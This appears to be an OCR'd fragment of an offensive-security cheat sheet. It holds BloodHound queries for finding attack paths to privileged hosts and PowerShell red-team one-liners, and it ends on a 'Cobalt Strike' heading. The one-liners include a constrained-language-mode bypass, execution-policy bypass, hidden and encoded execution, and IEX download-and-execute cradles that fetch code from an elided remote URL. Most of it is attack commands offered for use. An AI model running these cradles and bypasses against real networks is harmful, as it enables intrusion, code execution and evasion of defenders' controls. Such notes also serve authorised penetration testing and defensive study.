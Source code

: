 ```
# shortest path to unconstrained from owned
MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p

# find domain users with SQLAdmin
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

#### Powershell

```
# check constrained language mode
PS> $ExecutionContext.SessionState.LanguageMode

# easy bypass
Powershell -version 2 [...]

# download
IEX(New-Object Net.WebClient).downloadString('https://[...]')

# download v3+
iex (iwr 'https://[...]')

# no profile
powershell -nop

# execution bypass
powershell -exec bypass

# hidden
powershell -w hidden

# exec base64 command
PS> powershell -enc [...]

# check Applocker
powershell Get-ApplockerPolicy -Effective -xml

# check av
powershell Get-MpComputerStatus

# credentials
PS> $Cred = New-Object System.Management.Automation.PSCredential('vault.io\s.morese', $SecPassword) 
[...]
PS> [...] -Credential $Cred

# list pipes
PS> [System.IO.Directory]::GetFiles("\\.\\pipe\\")
```

Cobalt Strike
